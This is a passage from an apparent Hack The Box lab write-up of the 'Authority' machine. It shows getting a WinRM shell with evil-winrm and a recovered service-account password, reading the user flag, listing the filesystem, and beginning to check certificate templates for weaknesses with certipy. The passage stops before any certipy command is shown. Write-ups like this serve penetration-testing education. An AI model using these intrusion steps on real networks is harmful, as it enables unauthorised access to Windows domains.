 

I'll go directly to WinRM and get a shell:



    oxdf@hacky$ evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'

    Evil-WinRM shell v3.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\svc_ldap\Documents>



And the user flag:



    *Evil-WinRM* PS C:\Users\svc_ldap\desktop> cat user.txt
    31d4b9bf************************



## Shell as administrator

### Enumeration

#### Filesystem

The filesystem is quite bare. There no other user directory on the box
other than `Public` (which is empty) and `Admistrator` (which is where I
want to get):



    *Evil-WinRM* PS C:\users> ls

        Directory: C:\users

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        3/17/2023   9:31 AM                Administrator
    d-r---         8/9/2022   4:35 PM                Public
    d-----        3/24/2023  11:27 PM                svc_ldap



The IIS folders are empty, and I don't see much of interest in the PWM
configs.

#### ADCS

It's always worth enumerating ADCS on a Windows DC. I've shown `certipy`
(`pipx install certipy-ad`, [GitHub](https://github.com/ly4k/Certipy))
before on [Absolute](/htb-absolute.md#shadow-credential)
and [Escape](/htb-escape.md#shell-as-administrator). I'll
use the `find` command to identify templates, and with `-vulnerable`
only show vulnerable ones:


